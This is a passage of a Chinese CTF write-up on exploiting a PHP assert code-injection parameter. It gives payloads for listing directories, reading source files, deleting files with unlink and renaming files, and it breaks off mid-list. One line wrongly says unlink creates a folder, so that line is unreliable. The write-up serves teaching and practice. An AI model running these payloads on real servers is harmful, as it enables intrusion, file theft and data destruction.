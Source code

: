 大体看了下是linux，搜索下disable_functions，没有函数被禁用。

很自然的想到了用执行系统命令查看flag在哪里。

### 三丶测试系统命令能否执行

`/?s=system(‘ls’)`,发现没有反应，然后sleep一下，或者ping发现都没有反应。这里不是没有回显，因为已经知道了是`assert(system(''))`执行php代码。

没有禁用函数，并且不是回显的问题。猜测这里是用户权限太低了，所以不能执行。

### 四丶转变思路

网上的WP几乎是千篇一律:`?s=print_r(scandir('./'))`

可是大多数并没有给出实质性的回答：为什么这个就可以了？

既然这里涉及到的是linux用户的系统权限，那么我们是不是可以用php自己本身带着的系统函数呢？

回头一看 `?s=print_r(scandir('./'))` 不就是用的系统函数吗？那么开始测试相关的php系统函数。

### 五丶各种payload

#### 1.查看文件

print_r(): 就是打印出变量，那var_dump()也是可以的吧

```
?s=var_dump(scandir('/')) 
```

scandir():列出目录中的文件和目录，我们也可以直接用glob()函数查看文件

```
?s=var_dump(glob('/*')) 
```

用file_get_contents()读取文件内容:

```
?s=print_r(file_get_contents("./index.php")) 
```

#### 2.删除文件

unlink()，删除指定的文件。为了演示，我自己新建了个test1文件在当前的目录，文件的创建在后边会说。

```
?s=unlink('test1') 
```

#### 3.对文件改名

rename(old,new)

```
?s=rename('test2','test3') test2文件名字改为test3 (test2也是为了演示刚刚建立的) 
```

#### 4.创建或删除文件夹

```
?s=unlink('test') 创建test文件夹 
```
